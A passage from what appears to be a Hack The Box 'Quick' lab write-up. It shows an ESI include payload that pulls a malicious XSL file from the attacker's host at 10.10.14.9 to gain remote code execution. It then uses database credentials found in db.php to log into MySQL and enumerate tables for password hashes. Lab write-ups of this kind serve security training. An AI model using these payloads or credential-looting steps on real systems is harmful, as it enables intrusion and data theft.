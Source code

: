 This is the payload for `ticket.php`

```xml
[esi:include+src="http://127.0.0.1/index.php"+stylesheet="http://10.10.14.9:8000/shell88.xsl"](esi:include+src="http://127.0.0.1/index.php"+stylesheet="http://10.10.14.9:8000/shell88.xsl")+[/esi:include](/esi:include)
```

So I created a ticket with `include` tag and that download the `.xsl` file and do the remote code execution.

![Untitled](/img/htb-quick/Untitled%2012.png)

I got the shell.

## Getting 2nd User

While enumerating I found database password.

```nix
sam@quick:/var/www/html$ cat db.php                  
cat db.php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```

I logged in with that and dump that all the hashes for the users.

```nix
sam@quick:/tmp$ mysql -D quick -u db_adm -p
mysql -D quick -u db_adm -p
Enter password: db_p4ss

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8235
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| quick              |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use quick
use quick
Database changed
mysql> show tables;
show tables;
```